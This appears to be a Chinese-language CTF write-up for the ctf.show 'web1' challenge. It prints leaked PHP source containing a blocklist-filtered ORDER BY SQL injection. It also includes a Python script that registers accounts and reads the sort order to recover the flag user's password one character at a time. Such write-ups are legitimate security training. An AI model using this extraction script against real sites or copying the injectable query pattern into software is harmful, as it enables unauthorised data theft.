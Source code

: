 ```yaml
---
title: "CTFshow web1  @WEB"
date: 2023-11-06
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


没什么思路，御剑扫描一下，发现www.zip,下载下来

![](/ctf.show104/1.webp)

login.php（登录页）中能禁的基本都禁干净了，登录页面貌似没有注入的可能。

reg.php（注册页）也是如此，所以注册页面也没可能了。

剩下最后一个user_main.php就是显示信息的页面了。这里可以看到在数据库中是把所有的字段都给查出来。

![](/ctf.show104/2.webp)

源码如下：

```php
<?php
	
	if(isset($_SESSION["login"]) && $_SESSION["login"] === true){
		$con = mysqli_connect("localhost","root","root","web15");
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		$order=$_GET['order'];
		if(isset($order) && strlen($order)<6){
			if(preg_match("/group|union|select|from|or|and|regexp|substr|like|create|drop|\,|\`|\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\’|\“|\"|\<|\>|\?|\,|\.|\?/i",$order)){
				die("error");
			}
			$sql="select * from user order by $order";
        }else{
            $sql="select * from user order by id";
        }   

?>
查出来之后也没有显示密码
```

可以利用?order=pwd来判断注册的密码与flag用户密码的大小（即 select * from user order by pwd;），当我们按照pwd排序时，比如 flag用户的密码为flag{123}，我们从小到大 一直到f都在他的上面，当我们注册的密码为g时，则出现第一个在下面的，这时我们就可以判断密码的第一个字符为f，手工的话会比较麻烦，所以需要用到大神的python脚本去跑,脚本如下：

```python
import requests
url="http://c3390858-6b05-4d52-a1f3-26b6be635277.challenge.ctf.show/"	#修改此处
url1=url+"/reg.php" #注册页面
url2=url+"/login.php"#登录界面
url3=url+"/user_main.php?order=pwd" #查询界面
k=""
s="-.0123456789:abcdefghijklmnopqrstuvwxyz{|}~"
for j in range(0,45):
    print("*")
    for i in s:
        #print(i)
        l=""
        l=k+i
        l2 = k+chr(ord(i)-1)
        data={'username':l,
                    'email':'c',
                    'nickname':'c',
                    'password':l
        }
        data2={'username':l,
                      'password':l
        }
        if (l=='flag'):
            k='flag'
            print(k)
            break
        session = requests.session()
        r1 = session.post(url1,data)
        r2 = session.post(url2,data)
        r3 = session.get(url3)
        t = r3.text
        #print(l)
        if (t.find("<td>"+l+"</td>")>t.find("<td>flag@ctf.show</td>")):
            k=l2
            print(k)
            break
```

跑出来最后一位是|，改成}就可以提交了。